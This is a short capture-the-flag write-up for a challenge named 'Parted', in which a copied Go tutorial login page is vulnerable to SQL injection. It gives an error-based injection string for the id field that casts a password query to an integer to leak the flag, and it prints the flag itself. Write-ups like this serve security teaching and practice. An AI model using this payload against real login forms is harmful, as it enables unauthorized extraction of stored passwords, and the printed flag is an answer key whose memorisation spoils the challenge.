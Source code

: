 # Parted

## Author

IktaS

## Deskripsi

I copy pasted this Go tutorial from the internet and I successfully made the login page, I copied this from the internet so it must be completely secure.... right? You can try logging in using id `test` and password `test`

## Writeup

This challenge is an SQL Injection challenge in which you need to use the returned error to derive information from the database

Insert in the id field `' and 1=cast((SELECT password FROM users LIMIT 1 OFFSET 1) as int) and '1'='1`

You will get an error showing the flag

## Flag

HCS{m4yb3_1_5hou1d_L3aRn_m0R3_90}